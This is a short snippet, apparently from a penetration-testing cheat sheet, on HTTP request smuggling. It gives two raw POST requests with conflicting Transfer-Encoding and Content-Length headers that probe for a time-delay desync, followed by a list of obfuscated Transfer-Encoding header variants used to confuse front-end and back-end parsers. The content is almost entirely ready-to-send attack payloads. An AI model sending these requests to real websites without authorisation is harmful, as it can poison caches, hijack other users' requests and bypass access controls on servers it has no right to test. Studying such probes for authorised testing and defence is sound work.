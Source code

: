 ### If a time delay occurs the site might be vulnerable
```
POST / HTTP/1.1
Host: <domain>
Transfer-Encoding: chunked
Content-Length: 4

1  
Z  
Q  
```

### Again provoce time delay
```
POST / HTTP/1.1
Host: <domain>
Transfer-Encoding: chunked
Content-Length: 6

0  

X  
```


### Some different chung encoding templates:
```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked  

Transfer-Encoding: chunked  

Transfer-Encoding: x  

Transfer-Encoding:[tab]chunked  

X: X[\n]Transfer-Encoding: chunked  
```

